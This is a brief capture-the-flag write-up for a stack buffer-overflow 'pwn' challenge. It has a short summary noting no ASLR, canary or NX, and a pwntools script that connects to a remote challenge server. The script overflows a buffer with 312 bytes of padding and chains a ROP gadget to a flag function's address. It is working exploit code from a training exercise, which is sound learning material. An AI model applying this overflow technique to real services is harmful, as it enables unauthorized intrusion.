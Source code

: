 # BOF

/Summary :
* Simple pwn challenge
* Use cyclic for finding the segfault location
* No ASLR nor Canary nor NX so we just simply ovf 

** **

Code : 
~~~python
from pwn import *

  

def exp():

	f = remote('35.246.134.224', 31593)

  
  

	flagAdr = 0x00400767

	ropp= 0x004008dc # any ROP gadget will work

  

	offset = 312 #our exploit found only 304 but it also 
	#only overflowed the BSP, we know we need to 
	#reach RIP so we add 8 bytes (to ovf the next stack addr)

  

	payload = b"a" * offset + p64(ropp) + p64(flagAdr)

  

	f.sendline(payload)

	f.interactive()

  
  

exp()

 
~~~